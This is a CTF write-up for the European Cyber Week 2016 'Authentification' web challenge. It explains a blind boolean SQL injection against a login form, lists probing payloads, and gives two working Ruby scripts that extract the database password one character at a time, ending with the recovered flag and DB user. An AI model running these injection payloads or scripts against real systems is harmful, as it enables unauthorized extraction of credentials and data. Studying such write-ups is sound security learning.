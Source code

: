 ```yaml
---
layout: post
title: "ECW - 50 - Authentification - Web"
lang: en
categories:
  - security
  - writeups
tags:
  - security
  - writeups
  - ctf
  - web
date: 2016/11/06
thumbnail: /images/ctf.png
---
```

## Informations

### Version

| By    | Version | Comment
| ---   | ---     | ---
| noraj | 1.0     | Creation

### CTF

- **Name** : European Cyber Week CTF Quals 2016
- **Website** : [challenge-ecw.fr](https://challenge-ecw.fr/)
- **Type** : Online
- **Format** : Jeopardy - Student

### Description

N.A.

## Solution

This is a [bling SQL injection][blind] and Out-Of-Band (OOB) channel exfiltration is not working.
When giving a correct (well formed) SQLi we get the message: `Authentification valide. Le mot de passe est le flag.`.
So we are able to determine if a request is true or false.
So the following requests gave us some details about the DB:
* `' or 1=1 #` => MySQL Database
* `' or substring(version(),1,1)=5 #` => MySQL 5
* `' or (select 1)=1 #` => subselect supported
* `' or (select substring(concat(1,password),1,1) limit 0,1)=1 #` => column name is *password*

So our payload will be `SELECT password`.

And here is the script I wrote :

```ruby
#!/usr/bin/env ruby

require 'curb' # for get/post requests

hostname = 'https://challenge-ecw.fr/chals/web100'
nonce = 'myNonce'

c = Curl::Easy.new(hostname) do |curl|
  curl.headers['Cookie'] = 'session=mySessionCookie'
  curl.headers['Referer'] = hostname
  curl.headers['Host'] = 'challenge-ecw.fr'
  curl.headers['Connection'] = 'keep-alive'
  curl.headers['Upgrade-Insecure-Requests'] = '1'
  #curl.verbose = true
end # Curl
c.perform # send the request

if c.body_str.match(/Veuillez vous authentifier pour r/)
  puts '• Connexion to ECW works'
end

# Request we want to know the answer
payload = 'SELECT password'

# Find the length of the password
length = 0
while true do
  c.http_post(Curl::PostField.content('password', "' OR LENGTH((#{payload}))=#{length} #"),
              Curl::PostField.content('nonce', nonce))
  c.perform
  if c.body_str.match(/Authentification valide\. Le mot de passe est le flag\./)
    puts "Length: #{length}"
    break
  else
    puts "Length: not #{length}"
    length+=1
  end
end


# Find each char of the password one by one
answer = ""
(1..length).each do |offset|
  (32..126).each do |char|
    c.http_post(Curl::PostField.content('password', "' OR ASCII(SUBSTRING((#{payload}),#{offset},1))=#{char} #"),
                Curl::PostField.content('nonce', nonce))
    c.perform
    if c.body_str.match(/Authentification valide\. Le mot de passe est le flag\./)
      answer.concat(char.chr)
      puts "Password: #{answer}"
      break
    else
      puts "Tried: #{answer}#{char.chr}"
    end
  end
end
```

We can optimize the time to get the password because we know that the flag is `ECW{md5(string)}` and md5 hashes contains only lower letters and digits that is 32 chars long. So we can fix some parameters:
+ Lenght of the password: **37**
+ Alphabet: **["a", "b", "c", "d", "e", "f", "0", "1", "2", "3", "4", "5", "6", "7", "8", "9", "E", "C", "W", "{", "}"]**

That give us the more optimized script:

```ruby
#!/usr/bin/env ruby

require 'curb' # for get/post requests

hostname = 'https://challenge-ecw.fr/chals/web100'
nonce = 'myNonce'

c = Curl::Easy.new(hostname) do |curl|
  curl.headers['Cookie'] = 'session=mySessionCookie'
  curl.headers['Referer'] = hostname
  curl.headers['Host'] = 'challenge-ecw.fr'
  curl.headers['Connection'] = 'keep-alive'
  curl.headers['Upgrade-Insecure-Requests'] = '1'
  #curl.verbose = true
end # Curl
c.perform # send the request

if c.body_str.match(/Veuillez vous authentifier pour r/)
  puts '• Connexion to ECW works'
end

# Request we want to know the answer
payload = 'SELECT password'

length = 37

# Find each char of the password one by one
answer = ""
ECW_flag_alphabet_array = ('a'..'f').to_a + (0.to_s..9.to_s).to_a + ['E', 'C', 'W', '{', '}']
(1..length).each do |offset|
  ECW_flag_alphabet_array.each do |char|
    c.http_post(Curl::PostField.content('password', "' OR ASCII(SUBSTRING((#{payload}),#{offset},1))=#{char.ord} #"),
                Curl::PostField.content('nonce', nonce))
    c.perform
    if c.body_str.match(/Authentification valide\. Le mot de passe est le flag\./)
      answer.concat(char)
      puts "Password: #{answer}"
      break
    else
      puts "Tried: #{answer}#{char}"
    end
  end
end
```

So we got the flag: `ECW{d3832d5a1ef4c3bef82b87ced5f50e7d}`.

**BONUS**: I used my script to get the username:

```
SELECT user()
User: ecw@localhost
```

[blind]:https://www.owasp.org/index.php/Blind_SQL_Injection
